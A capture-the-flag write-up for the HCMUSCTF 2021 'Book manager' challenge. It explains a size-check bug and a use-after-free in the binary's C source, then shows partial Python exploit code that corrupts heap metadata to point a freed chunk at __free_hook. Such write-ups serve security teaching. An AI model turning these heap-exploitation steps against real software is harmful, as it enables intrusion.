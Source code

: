 ## Final

### Book manager \[200pts\] (HCMUSCTF2021 Final)

> [book_manager](https://github.com/th3-5had0w/CTF-contests/raw/master/HCMUSCTF-Final-2021/Book_manager/book_manager)
>
> [source code](https://github.com/th3-5had0w/CTF-contests/raw/master/HCMUSCTF-Final-2021/Book_manager/book_manager.c)
>
> [libc](https://github.com/th3-5had0w/CTF-contests/raw/master/HCMUSCTF-Final-2021/Book_manager/libc-2.31.so)

#### The vulnerability

After a while i managed to find out 2 vulnerabilities in the binary:

* The binary duplicate page but does not check the size of page:
```c
idx = get_int_prompt("[+] Which book you want to copy from?: ");
PBook pBook = get_book(idx);
idx = get_int_prompt("[+] Which page you want to copy from?: ");
char* page = get_page(pBook, idx);
char* new_page = strdup(page);
*page_size = pBook->page_size[idx]; // the vulnerability here
return new_page;
```

* The print page function allows us to print deallocated memories:
```c
void print_page()
{
    int idx;
    idx = get_int_prompt("[+] Which book you want to print?: ");
    PBook pBook = get_book(idx);
    idx = get_int_prompt("[+] Which page you want to print?: ");
    if (idx < 0 || idx >= MAX_BOOK_PAGES)
        hacker();
    printf("[+] Content: %s\n", pBook->page[idx]); 
    // read the content in page without checking if the page has been deallocated or not
}
```

#### Exploit
With the first vulnerability, i was able to overwrite the next heap's metadata, which led to buffer overflow on the heap:
```python
add(4, 1000, b'A'*4) # add page to book 4: b4->[0]
dup(4, 4, 0) # duplicate page 0 of book 4: b4->[0,1]
add(4, 0x40, b'A') # add target page to book 4: b4->[0,1,2]
add(4, 0x40, b'A') # add dummy page to book 4: b4->[0,1,2,3]
dele(4) # remove page dummy page from book 4
dele(4) # remove page target page from book 4
#crafting payload
pl = b'A'*24+p64(0x51)
pl += p64(libc_start_main - elf.sym['__libc_start_main'] + 0x1eeb28-8)
pl += p64(0) #+p64(heap_base + 0x10) remove hashtag for libc 2.32
edit(4, 1, pl) # overwrite target page's forward pointer with __free_hook address
```
